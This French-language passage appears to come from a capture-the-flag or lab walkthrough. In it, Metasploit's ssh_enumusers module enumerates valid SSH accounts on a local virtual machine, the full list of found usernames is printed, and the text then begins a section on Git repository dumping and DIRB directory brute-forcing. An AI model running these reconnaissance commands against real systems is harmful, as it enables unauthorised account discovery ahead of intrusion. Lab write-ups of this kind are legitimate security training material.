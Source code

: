 ```console
jharraway is a valid user!
sswiney is a valid user!
```

Le module ```ssh_enumusers``` confirme les résultats obtenus précédemment.

```console
root@blinils:~# msfconsole --quiet
[*] Starting persistent handler(s)...

msf > use auxiliary/scanner/ssh/ssh_enumusers
msf auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 192.168.56.102
RHOSTS => 192.168.56.102
msf auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE drupal_users.txt
USER_FILE => drupal_users.txt
msf auxiliary(scanner/ssh/ssh_enumusers) > run

[*] 192.168.56.102:22 - SSH - Using malformed packet technique
[*] 192.168.56.102:22 - SSH - Starting scan
[-] 192.168.56.102:22 - SSH - User 'admin' not found
[-] 192.168.56.102:22 - SSH - User 'anonymous' not found
[+] 192.168.56.102:22 - SSH - User 'sloreman' found
[+] 192.168.56.102:22 - SSH - User 'tmaloney' found
[+] 192.168.56.102:22 - SSH - User 'xbruce' found
[+] 192.168.56.102:22 - SSH - User 'mswanson' found
[+] 192.168.56.102:22 - SSH - User 'jstone' found
[+] 192.168.56.102:22 - SSH - User 'shunter' found
[+] 192.168.56.102:22 - SSH - User 'jingersol' found
[+] 192.168.56.102:22 - SSH - User 'jgrimes' found
[+] 192.168.56.102:22 - SSH - User 'dhart' found
[+] 192.168.56.102:22 - SSH - User 'gprune' found
[+] 192.168.56.102:22 - SSH - User 'jalderman' found
[+] 192.168.56.102:22 - SSH - User 'jgoldman' found
[+] 192.168.56.102:22 - SSH - User 'bdio' found
[+] 192.168.56.102:22 - SSH - User 'hplink' found
[+] 192.168.56.102:22 - SSH - User 'gconnor' found
[+] 192.168.56.102:22 - SSH - User 'sholden' found
[+] 192.168.56.102:22 - SSH - User 'spinkton' found
[+] 192.168.56.102:22 - SSH - User 'jharraway' found
[+] 192.168.56.102:22 - SSH - User 'sswiney' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Dump du dépôt Git et extraction d'informations sensibles

Poursuivons l'analyse du serveur Web : y a-t-il des répertoires « cachés » présents sur le site ? Pour le savoir, l'outil [__DIRB__](https://tools.kali.org/web-applications/dirb) va se servir d'une liste pré-établie de répertoires afin de déterminer l'arborescence du site. Il s'agit là d'une [attaque par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking), a contrario d'une [attaque par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consisterait à tester, de manière exhaustive, toutes les combinaisons possibles : aa, ab, ac... zy zz aaa aab... zzy zzz aaaa aaab... et ainsi de suite. DIRB dispose d'un [large panel de dictionnaires](https://github.com/digination/dirbuster-ng/tree/master/wordlists), ainsi plusieurs résultats sont renvoyés avec le dictionnaire common.txt.
